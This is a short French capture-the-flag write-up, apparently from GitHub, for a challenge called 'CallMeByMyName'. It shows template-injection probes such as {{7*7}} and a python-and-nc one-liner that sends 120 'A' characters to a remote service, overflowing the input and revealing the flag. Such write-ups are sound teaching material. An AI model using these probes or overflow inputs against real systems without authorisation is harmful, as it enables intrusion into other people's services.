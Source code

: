 # WriteUp CallMeByMyName

se connecter: `nc 0xhorizon.eu 8888`
On nous demande notre nom pour ensuite afficher Hello prenom
Ex:
```shell
Hello ! What's your name ?
tyki6
Hello tyki6
```

## Testons des injections

Essayons de voir si il y a une template derrière.On va tenter de faire un payload qui contient une opération pour voir si on a non pas notre opération mais le résultat de celle-ci (ex: on envoie 7*7 cela nous donne 49)
Test:

```shell
Hello ! What's your name ?
{{7*7}}}
Hello {{7*7}}}
```

Nop!

Test:

```shell
Hello ! What's your name ?
{7*7}}
Hello {7*7}}
```

Toujours pas

Bon on va essayer autre chose.

## Segmentation fault

Par curiosité je voulais savoir ce que ça fesait si on injectait 1000 caractères.
Appuyer pleins de fois sur A et Bingo on a le flag(un peu de chance sur celui-ci).

Pour la rapidité:  `python -c "print(120*'A')" | nc 0xhorizon.eu 8888`

```bash
python -c "print(120*'A')" | nc 0xhorizon.eu 8888
Hello ! What's your name ?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Good job here is your flag: horiz0nx{FLAG}
```

Pour les plus curieux c'est à partir de 120 caractères que le programme donne le flag.
